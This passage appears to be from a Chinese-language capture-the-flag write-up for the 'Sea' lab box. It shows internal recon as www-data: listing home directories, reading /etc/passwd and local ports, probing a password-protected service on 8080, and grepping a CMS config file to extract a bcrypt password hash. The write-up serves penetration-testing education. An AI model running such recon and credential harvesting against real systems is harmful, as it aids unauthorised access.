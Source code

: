 
### Internal Recon with www-data


```
www-data@sea:/$ ls -al /home/
total 16
drwxr-xr-x  4 root root 4096 Jul 30 12:58 .
drwxr-xr-x 19 root root 4096 Feb 21 01:15 ..
drwxr-xr-x  4 amay amay 4096 Aug  1 12:22 amay
drwxr-x---  4 geo  geo  4096 Aug  1 12:13 geo
www-data@sea:/$ cat /etc/passwd
<SNIP>
amay:x:1000:1000:amay:/home/amay:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
geo:x:1001:1001::/home/geo:/bin/bash
_laurel:x:997:997::/var/log/laurel:/bin/false

www-data@sea:/home/amay$ ss -notpl
State               Recv-Q               Send-Q                             Local Address:Port                              Peer Address:Port              Process              
LISTEN              0                    10                                     127.0.0.1:57743                                  0.0.0.0:*                                      
LISTEN              0                    511                                      0.0.0.0:80                                     0.0.0.0:*                                      
LISTEN              0                    4096                                   127.0.0.1:8080                                   0.0.0.0:*                                      
LISTEN              0                    4096                               127.0.0.53%lo:53                                     0.0.0.0:*                                      
LISTEN              0                    128                                      0.0.0.0:22                                     0.0.0.0:*                                      
LISTEN              0                    128                                         [::]:22                                        [::]:*                                      
www-data@sea:/home/amay$ curl -I 127.0.0.1:8080
HTTP/1.0 401 Unauthorized
Host: 127.0.0.1:8080
Date: Thu, 15 Aug 2024 11:14:36 GMT
Connection: close
X-Powered-By: PHP/7.4.3-4ubuntu2.23
WWW-Authenticate: Basic realm="Restricted Area"
Content-type: text/html; charset=UTF-8
```

进行一波基础的信息收集，发现有本地开放端口8080，访问了了一下发现要认证，那继续探索是否有凭据信息。

找到一个config文件中的密码，但是没有用户名。以及看其中的 `"login": "loginURL"` 和 `lastLogins` 提到从 `127.0.0.1` 登录，那么可能之前的8080端口的认证就是之前loginURL页面用的密码：
```
www-data@sea:/var/www/sea/data$ ls -l
total 40
-rwxr-xr-x 1 www-data www-data 29235 Aug 15 11:08 cache.json
-rwxr-xr-x 1 www-data www-data  2891 Aug 15 11:15 database.js
drwxr-xr-x 2 www-data www-data  4096 Aug 15 11:08 files
www-data@sea:/var/www/sea/data$ grep -i pass database.js 
        "password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",

www-data@sea:/var/www/sea/data$ head -n15 database.js 
{
    "config": {
        "siteTitle": "Sea",
        "theme": "bike",
        "defaultPage": "home",
        "login": "loginURL",
        "forceLogout": false,
        "forceHttps": false,
        "saveChangesPopup": false,
```
